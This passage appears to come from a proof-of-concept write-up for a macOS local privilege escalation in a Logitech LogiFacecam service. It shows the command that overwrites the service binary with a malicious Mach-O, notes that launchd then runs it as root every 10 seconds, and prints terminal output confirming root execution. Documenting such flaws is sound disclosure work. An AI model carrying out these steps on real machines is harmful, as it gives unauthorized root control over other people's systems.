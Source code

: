 The malicious `LogiFacecamService` Mach-O was copied to the vulnerable path:
```bash
11:04:10-testmac@mpro:~/Desktop/LOGITECH$ cp Logitech_LogiFacecam_LPE /Library/Application\ Support/LogiFacecam.bundle/Contents/MacOS/LogiFacecamService
```

### Restart the MacOS machine
A reboot and a re-login will trigger `launchd` to load the malicious Mach-O and execute commands as `root`. 
> NOTE: Due to how launchd operates the `/Library/Application Support/LogiFacecam.bundle/Contents/MacOS/LogiFacecamService` Mach-O will be executed as root every 10 seconds. To restore the state prior to execution `mv /Library/Application\ Support/LogiFacecam.bundle/Contents/MacOS/LogiFacecamService.bak /Library/Application\ Support/LogiFacecam.bundle/Contents/MacOS/LogiFacecamService`


### Verify the `root` code execution
The `/tmp/com.Logitech.LogiFacecam.Service.pwn` file contains the result of the `root` code execution:
```bash
10:18:03-testmac@mpro:~$ ls /tmp/
total 16
drwxrwxrwt  7 root     wheel   224B 28 Dec 10:17 .
drwxr-xr-x  6 root     wheel   192B 28 Dec 10:17 ..
-r--r--r--  1 testmac  wheel    11B 28 Dec 10:17 .X1002-lock
drwxrwxrwt  3 root     wheel    96B 28 Dec 10:17 .X11-unix
-rw-r--r--  1 root     wheel   1.3K 28 Dec 10:17 com.Logitech.LogiFacecam.Service.pwn
drwx------  3 testmac  wheel    96B 28 Dec 10:17 com.apple.launchd.vOiWsEqhb3
drwxr-xr-x  2 root     wheel    64B 28 Dec 10:17 powerlog
10:18:05-testmac@mpro:~$ cat /tmp/com.Logitech.LogiFacecam.Service.pwn 
Thu Dec 28 10:17:37 PST 2023
root
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),701(com.apple.sharepoint.group.1),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae)
Thu Dec 28 10:17:48 PST 2023
root
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),701(com.apple.sharepoint.group.1),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae)
Thu Dec 28 10:17:58 PST 2023
root
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),701(com.apple.sharepoint.group.1),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae)
Thu Dec 28 10:18:08 PST 2023
root
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),701(com.apple.sharepoint.group.1),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae)
10:18:17-testmac@mpro:~$ uptime
10:18  up 50 secs, 2 users, load averages: 7.65 2.42 0.92
```
